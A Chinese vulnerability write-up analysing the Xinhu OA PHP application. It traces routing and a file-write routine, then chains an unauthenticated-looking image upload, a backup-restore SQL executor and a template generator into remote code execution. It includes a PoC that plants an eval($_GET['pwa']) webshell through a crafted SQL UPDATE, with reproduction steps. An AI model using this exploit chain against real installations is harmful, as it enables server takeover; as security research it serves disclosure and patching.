# 从文件写入sql语句到getshell-先知社区

> **来源**: https://xz.aliyun.com/news/17412  
> **文章ID**: 17412

---

# 环境搭建

源码下载地址：<https://github.com/rainrocka/xinhu>  
下载后解压到本地网站根目录下，配置好数据库，然后安装即可  
  
  
默认密码是admin/123456，登录进去得更改一次密码

# 路由分析

```
<?php  
if(!isset($ajaxbool))$ajaxbool = $rock->jm->gettoken('ajaxbool', 'false');  
$ajaxbool   = $rock->get('ajaxbool', $ajaxbool);  
$p  = PROJECT;//define('PROJECT', 'webmain');  
if(!isset($m))$m='index';  
if(!isset($a))$a='default';  
if(!isset($d))$d='';  
$m  = $rock->get('m', $m);  
$a  = $rock->get('a', $a);  
$d  = $rock->get('d', $d);  
  
define('M', $m);  
define('A', $a);  
define('D', $d);  
define('P', $p);  
  
$_m = $m;  
if($rock->contain($m, '|')){  
    $_mas = explode('|', $m);//以|分割变量m  
    $m= $_mas[0];  
    $_m = $_mas[1];  
}  
include_once($rock->strformat('?0/?1/?1Action.php',ROOT_PATH, $p));//调用strformat进行格式化，其中?0、?1 等是占位符  
$rand   = date('YmdHis').rand(1000,9999);//随机值  
if(substr($d,-1)!='/' && $d!='')$d.='/';//若$d最后一个字符不是/且$d不是空就在$d后面加一个/  
$errormsg   = '';  
$methodbool = true;  
$actpath    = $rock->strformat('?0/?1/?2?3',ROOT_PATH, $p, $d, $_m);//$actpath：根目录/webmain/$d/$_m  
define('ACTPATH', $actpath);  
$actfile    = $rock->strformat('?0/?1Action.php',$actpath, $m);//$actfile:根目录/webmain/$d/$_m/$mAction.php  
$actfile1   = $rock->strformat('?0/?1Action.php',$actpath, $_m);//$actfile1:根目录/webmain/$d/$_m/$_mAction.php  
$actbstr = null;  
//依次判断$actfile1以及$actfile哪个文件存在，哪个存在包含哪个  
if(file_exists($actfile1))  
    include_once($actfile1);  
if(file_exists($actfile)){  
    include_once($actfile);  
    $clsname    = ''.$m.'ClassAction';  
    $xhrock = new $clsname();//创建一个与$m相关类的对象  
    $actname    = ''.$a.'Action';//在$a后接一个Action  
    if($ajaxbool == 'true')//判断ajaxbool是否为true  
        $actname    = ''.$a.'Ajax';//在$a后接一个Ajax  
    if(method_exists($xhrock, $actname)){//检测类中是否存在该方法  
        $xhrock->beforeAction();  
        $actbstr = $xhrock->$actname();  
        $xhrock->bodyMessage = $actbstr;  
        if(is_string($actbstr)){echo $actbstr;$xhrock->display=false;}  
        if(is_array($actbstr)){echo json_encode($actbstr);$xhrock->display=false;}  
    }else{  
        $methodbool = false;  
        if($ajaxbool == 'false')echo ''.$actname.' not found;';  
    }  
    $xhrock->afterAction();  
}else{  
    echo 'actionfile not exists;';  
    $xhrock = new Action();  
}  
  
$_showbool = false;  
if($xhrock->display && ($ajaxbool == 'html' || $ajaxbool == 'false')){  
    $xhrock->smartydata['p']    = $p;  
    $xhrock->smartydata['a']    = $a;  
    $xhrock->smartydata['m']    = $m;  
    $xhrock->smartydata['d']    = $d;  
    $xhrock->smartydata['rand'] = $rand;  
    $xhrock->smartydata['qom']  = QOM;  
    $xhrock->smartydata['path'] = PATH;  
    $xhrock->smartydata['sysurl']= SYSURL;  
    $temppath   = ''.ROOT_PATH.'/'.$p.'/';  
    $tplpaths   = ''.$temppath.'/'.$d.''.$m.'/';  
    $tplname    = 'tpl_'.$m.'';  
    if($a!='default')$tplname  .= '_'.$a.'';  
    $tplname       .= '.'.$xhrock->tpldom.'';  
    $mpathname  = $tplpaths.$tplname;  
    if($xhrock->displayfile!='' && file_exists($xhrock->displayfile))$mpathname = $xhrock->displayfile;  
    if(!file_exists($mpathname) || !$methodbool){  
        if(!$methodbool){  
            $errormsg   = 'in ('.$m.') not found Method('.$a.');';  
        }else{  
            $errormsg   = ''.$tplname.' not exists;';  
        }  
        echo $errormsg;  
    }else{  
        $_showbool = true;  
    }  
}  
if($xhrock->display && ($ajaxbool == 'html' || $xhrock->tpltype=='html' || $ajaxbool == 'false') && $_showbool){  
    $xhrock->setHtmlData();  
    $da = $xhrock->smartydata;  
    foreach($xhrock->assigndata as $_k=>$_v)$$_k=$_v;  
    include_once($mpathname);  
    $_showbool = false;  
}
```

这里用get方式会接收m，d，a，ajaxbool参数

* rock->jm->gettoken获取。当ajaxbool为false时，是对xxxAction.php的内容访问，当ajaxbool为true时，是对xxxAjax.php的内容进行访问
* a, $d：分别代表php文件名（不含Action）、动作名（action）、目录名(webadmin下的子目录），默认值分别为index，default、空字符串。

举例：index.php?a=deluser&m=imgroup&ajaxbool=true&gid=38&sid=1

* $m：user，表示请求的是webadmin下的imgroup 目录。
* $a：list，表示请求的方法是 deluser。
* ajaxbool：true，表示这是一个 AJAX 请求  
  

# 漏洞分析

这里找到webmain/main/flow/flowAction.php文件

```
public function inputAction()
    {
       $setid = (int)$this->get('setid','0');
       if($this->setinputid>0)$setid = $this->setinputid;
       $atype = $this->get('atype');
       
       $rs    = m('flow_set')->getone("`id`='$setid'");
       if(!$rs)exit('sorry!');
       $rs['zibiaoshu'] = count(explode(',', $rs['tables']));
       $this->smartydata['rs'] = $rs;
       $this->title  = $rs['name'].'_录入页面设置';
       $fleftarr  = m('flow_element')->getrows("`mid`='$setid'",'*','`iszb`,`sort`');
       $modenum   = $rs['num'];
       $fleft[]= array('base_name', '申请人',0);
       $fleft[]= array('base_deptname', '申请部门',0);
       $fleft[]= array('base_sericnum', '单号',0);
       $fleft[] = array('file_content', '相关文件',0);
       $iszb  = 0;
       foreach($fleftarr as $k=>$brs){
          $bt='';
          if($brs['isbt']==1)$bt='*';
          $iszbs = $brs['iszb'];
          if($iszbs>0&&$iszb != $iszbs){
             $fleft[]= array('', '<font color=#ff6600>—第'.$iszbs.'个多行子表—</font>', $iszbs);
             $fleft[]= array('xuhao', '序号', $iszbs);
          }
          $iszb  = $iszbs;
          $fleft[]= array($brs['fields'], $bt.$brs['name'], $iszb);
       }

       
       $this->smartydata['fleft'] = $fleft;
       $bianhao   = $modenum;
       $path     = ''.P.'/flow/page/input_'.$modenum.'.html';
       if(COMPANYNUM){
          $path1        = ''.P.'/flow/page/input_'.$modenum.'_'.COMPANYNUM.'.html';
          if(file_exists($path1)){
             $bianhao.='_'.COMPANYNUM.'';
             $path = $path1;
          }
       }
       $content   = '';
       if(file_exists($path)){
          $content = file_get_contents($path);
       }
       $this->smartydata['bianhao'] = $bianhao;
       $this->smartydata['content'] = $content;
       $apaths       = ''.P.'/flow/input/inputjs/mode_'.$modenum.'.js';
       if(!file_exists($apaths)){
          $stra='//流程模块【'.$modenum.'.'.$rs['name'].'】下录入页面自定义js页面,初始函数
function initbodys(){
    
}';
          $this->rock->createtxt($apaths, $stra);
       }
       
       $apaths       = ''.P.'/flow/input/mode_'.$modenum.'Action.php';
       $apath    = ''.ROOT_PATH.'/'.$apaths.'';
       if(!file_exists($apath)){
          $stra = '<?php
/**
*   此文件是流程模块【'.$modenum.'.'.$rs['name'].'】对应控制器接口文件。
*/
```

createtxt函数是一个文件写入方法



漏洞点在这



发现这里调用会写入 php 中

要是我们能控制 $modenum 或是 $rs['name'] 的内容就可以 getshell，不过 $modenum 同时也控制了文件名所以我们只能通过控制 $rs['name'] 来 getshell

跟进一下$rs数组



这里发现$rs 数组是由 flow\_set 数据库获取到的



如果我们可以控制name，然后把前面和后面注释掉，不就可以写马了吗？

常规思路我们只要寻找有插入 flow\_set 表的方法即可

在webmain/main/flowview/flowviewAction.php文件里面的createmodeAction方法就存在

```
public function createmodeAction()
    {
       $name     = $this->rock->xssrepstr($this->post('name'));
       $fields    = c('pingyin')->get($name,1);
       if(!$fields || strlen($fields)<4)$fields = $this->db->ranknum('flow_set','num'); 
       if(strlen($fields)>20)$fields = substr($fields,0,18);
       $num      = 'zz'.$fields.'';
       if(m('flow_set')->rows("`num`='$num'")>0){
          $fields = $this->db->ranknum('flow_set','num'); 
          $num      = 'zz'.$fields.'';
       }
       $id       = 0;
       $uarr['name'] = $name;
       $uarr['num']  = $num;
       $uarr['table']  = $num;
       $uarr['isflow']  = 0;
       $uarr['tables']  = '';
       $uarr['names']   = '';
       $uarr['sort']       = '0';
       $uarr['type']      = '新增';
       $uarr['receid']    = 'all';
       $uarr['recename']  = '全体人员';
       $uarr['optdt']     = $this->now;
       $uarr['isup']         = 0;
       $uarr['isscl']     = 1;
       $uarr['pctx']         = 1;
       $uarr['status']    = 1;
       $uarr['istxset']   = 0;
       $uarr['ispl']      = 0;
       
       $id = m('flow_set')->insert($uarr);
       include_once('webmain/main/flow/flowAction.php');
       $obj = new flowClassAction();
       $obj->flowsetsaveafter('flow_set', $uarr);
       $obj->setinputid = $id;
       $obj->inputAction();
       $wherestr = $this->jm->base64encode('`optid`={uid}');
       m('flow_where')->insert(array(
          'setid' => $id,
          'num' => 'my',
          'name' => '我添加数据',
          'wheresstr' => $wherestr,
          'sort' => 0,
          'islb' => 1,
          'status' => 1,
       ));
       
       m('flow_where')->insert(array(
          'setid' => $id,
          'num' => 'all',
          'pnum' => 'all',
          'name' => '所有数据',
          'wheresstr' => $this->jm->base64encode('1=1'),
          'sort' => 0,
          'islb' => 1,
          'status' => 1,
       ));
       
       $uarr = array(
          'recename' => '全体人员',
          'receid' => 'all',
          'modeid' => $id,
          'type' => 2,
          'wherestr' => $wherestr,
       );
       m('flow_extent')->insert($uarr);
       $uarr['type'] = 3;
       m('flow_extent')->insert($uarr);
       
       m('mode')->createlistpage($id); //生成列表页
       
       return returnsuccess(array(
          'name'     => ''.$id.'.'.$name.'('.$num.')',
          'id'   => $id,
          'num'  => $num
       ));
    }
}
```

但是xssrepstr方法对特殊字符做了处理 ，所以不行，那我们只能再找找有没有可以执行 SQL 语句且传参会不进行过滤的点



```
public function xssrepstr($str)
{
    $xpd  = explode(',','(,), , ,<,>,\,*,&,%,$,^,[,],{,},!,@,#,",+,?,;\'');
    $xpd[]= "
";
    return str_ireplace($xpd, '', $str);
}
```

在webmain/system/beifen/beifenAction.php文件下的huifdatanewAjax方法中存在sql查询

```
public function huifdatanewAjax()
{
    if(getconfig('systype')=='demo')exit();
    if($this->adminid!=1)return '只有ID=1的管理员才可以用';
    $folder = $this->post('folder');
    $sida  = explode(',', $this->post('sid'));
    $alltabls  = $this->db->getalltable();
    $shul  = 0;
    $tablss    = '';
    foreach($sida as $id){
       $ids   = substr($id,0,-5);
       $ida   = explode('_', $ids);
       $len   = count($ida);
       $fieldshu = $ida[$len-2];
       $total     = $ida[$len-1];
       $tab   = str_replace('_'.$fieldshu.'_'.$total.'.json','', $id); //表
       
       if(!in_array($tab, $alltabls))continue; //表不存在
       
       $filepath = ''.UPDIR.'/data/'.$folder.'/'.$id.'';
       if(!file_exists($filepath))continue;
       
       $data    = m('beifen')->getbfdata('',$filepath);
       if(!$data)continue;
       
       
       $dataall   = $data[$tab]['data'];
       if(count($dataall)<=0)continue; //没有数据
       
       $allfields     = $this->db->getallfields($tab);
       $fistdata  = $dataall[0];
       $xufarr       = array();
       foreach($fistdata as $f=>$v){
          if(in_array($f, $allfields)){
             $xufarr[] = $f;
          }
       }
       $uparr = array();
       foreach($dataall as $k=>$rs){
          $str1  = '';
          $upa   = array();
          foreach($xufarr as $f){
             $upa[$f] = $rs[$f];
          }
          $uparr[] = $upa;
       }
       
       $sql1  = "delete from `$tab`";
       $sql2  = "alter table `$tab` AUTO_INCREMENT=1";
       $bo    = $this->db->query($sql1, false);
       $bo    = $this->db->query($sql2, false);
       foreach($uparr as $k=>$upas){
          $bo = $this->db->record($tab, $upas);
       }
       $shul++;
       $tablss.=','.$tab.'';
    }
    return ''.$tablss.'表已恢复';
}
```

在该方法中通过处理传入的 sid，获取 table 名，如果 table 名不在数据库所有表名中时，会获取某个目录下 $sid 名的文件内容作为数组并取得 createsql 的内容进行 sql 语句执行。

那么就是说如果 sid 可控文件内容，同时 sid 不在表内那么我们就能构造修改 flow\_set 数据的 sql，而且目录 folder 也是可控的，我们找找有没有方法可以写入文件。

在用上面方法寻找文件写入的方法是我们发现好多文件名都是带了随机数，这不太好控制其位置，所以我们要找一个文件名不带随机数的写入点

这里有webmain/flow/flowopt/flowoptAction.php文件中的savetopdfAjax方法

```
public function savetopdfAjax()
{
    $imgbase64 = $this->post('imgbase64');
    if(isempt($imgbase64))return returnerror('无数据');
    $path = ''.UPDIR.'/logs/'.date('Y-m').'/abc.png';
    $bo = $this->rock->createtxt($path, base64_decode($imgbase64));
    if(!$bo)return returnerror(''.UPDIR.'目录无写入权限');

    $pa1 = ''.ROOT_PATH.'/include/fpdf/fpdf.php';
    if(!file_exists($pa1))return returnerror('没有安装fpdf插件');
    include_once($pa1);

    $fpdf = new FPDF();
    $fpdf->AddPage();
    $fpdf->Image($path,0,0);

    $fpdf->Output('F',''.UPDIR.'/logs/'.date('Y-m').'/to.pdf');
    $this->showreturn('ok:'.$fpdf->GetPageHeight().'');
}
```

首先是根据 imgbase64 上传一个 abc.png 文件，其次是一个 pdf 文件，因为默认没这个插件所以实际发包会报错，但不影响 abc.png 上传操作的执行。

于是构造文件内容的 poc 为

```
<?php
    $arr = array(
        "abc.png" => array("createsql" => "update flow_set set name="*\/eval($_GET\['pwa'\]);\/*"  where id=160;")
    );
    echo base64_encode(json_encode($arr));
```

第一层数组的键为文件名，为得是符合上面方法中 $dataarr= $data[$tab] 获取到我们后面数组 $tab 其实就是传入的文件名参数。第二层数组就是实际执行的 SQL 语句，其实 id 值是默认数据库中最后一行数据的 id 值。

此方法上传的文件位置为 upload/logs/2025-03/abc.png

# 漏洞复现

复现流程：

1. savetopdfAjax 上传内容为恶意 sql 语句的图片。
2. 请求接口触发图片内容中的恶意 SQL 语句
3. 将更新数据表后带有 payload 的 name 值写入到 php 文件中，成功实现 getshell。

首先上传一个带sql语句的图片



访问发现上传成功



新插入一条数据才能生成恶意的 php 文件，我们用之前找到的插入 flow\_set 数据的接口进行插入



通过数据表可以看到成功插入


根据 id 值重新生成 abc.png 的内容，然后进行恶意 sql 更新



可以看到已经成功修改了数据表中的内容


我们需要触发 php 文件的写入

找到webmain/flow/input/mode\_zzf08rneAction.php文件，发现成功写入



访问即可命令执行


